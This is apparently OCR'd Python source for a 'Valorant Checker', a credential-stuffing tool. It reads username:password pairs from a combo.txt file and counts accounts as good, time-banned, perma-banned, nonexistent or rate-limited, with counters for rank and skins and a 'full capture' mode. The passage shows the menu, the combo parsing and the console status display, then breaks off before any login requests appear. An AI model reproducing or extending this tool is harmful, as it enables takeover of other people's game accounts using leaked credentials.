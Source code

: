 
_1_9 = 0
_10_19 = 0
_20_29 = 0
_30_39 = 0
_40_49 = 0
_50_99 = 0
_100_150 = 0
_151 = 0

skinned = 0
no_skins = 0
class TLSAdapter(HTTPAdapter):
    def init_poolmanager(self, connections, maxsize, block=False):
        self.poolmanager = PoolManager(num_pools=connections, maxsize=maxsize, block=block,
                                       ssl_version=PROTOCOL_TLSv1_2)
def center(var:str, space:int=None): # From Pycenter
    if not space:
        space = (os.get_terminal_size().columns - len(var.splitlines()[int(len(var.splitlines())/2)])) / 2
    return "\n".join((' ' * int(space)) + var for var in var.splitlines())
def checker():
    global good, timeban, perban, notexist, rate, checked, verified, unverified, errors
    global skinned, no_skins, good, eu, na, br, kr, latam, ap, ratelimit, unranked, iron, bronze, silver, gold, platinum, diamond, ascendant, immortal, radiant, _1_9, _10_19, _20_29, _30_39, _40_49, _50_99, _100_150, _151
    print("Github.com/xharky")
    print("[1] GUI")
    print("[2] LOG")
    print("[3] FULL CAPTURE")
    print("[4] FULL CAPTURER GUI")
    print("[5] INFO")

    choice = input("[>] ")
    choice = int(choice)
    if choice == 5:
        print("DC: https://discord.gg/heJ2dzpYPZ")
        print("Option 1: is a static gui on the screen ")
        print("Otption 2 is dynamic lol idk how to describe")
        print("Option 3 is a dynamic full caputure checker")
        time.sleep(5)
        checker()
    white = {Fore.WHITE}
    file1 = open('combo.txt', "r", encoding='utf-8')
    lines = file1.readlines()
    with open("combo.txt", 'r+', encoding='utf-8') as e:
        ext = e.readlines()
        for line in ext:
            xd = line.split(":")[0].replace('\n', '')
            xds.append(xd)
    num = len(xds)
    for line in lines:
        username = line.split(":")[0].replace('\n', '')
        password = line.split(":")[1].replace('\n', '')
        ctypes.windll.kernel32.SetConsoleTitleW(f"Valorant Checker | Good: {good} | Timebanned: {timeban} | Permbanned: {perban} | Not exist: {notexist} | Ratelimited: {rate} | Checked: {checked}/{num}")
        if choice == 1:
            os.system("cls")
            print("")
            print(center(f"Accounts: {Fore.LIGHTGREEN_EX}{num}{Fore.RESET} "))
            print(center(f"━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━"))
            print(center(f"Checked:            [{Fore.YELLOW}{checked}/{num}{Fore.WHITE}]"))
            print(center(f"Good:               [{Fore.GREEN}{good}{Fore.WHITE}]"))
            print(center(f"Timeban:            [{Fore.RED}{timeban}{Fore.WHITE}]"))
            print(center(f"Permban:            [{Fore.RED}{perban}{Fore.WHITE}]"))
            print(center(f"Not exist:          [{Fore.RED}{notexist}{Fore.WHITE}]"))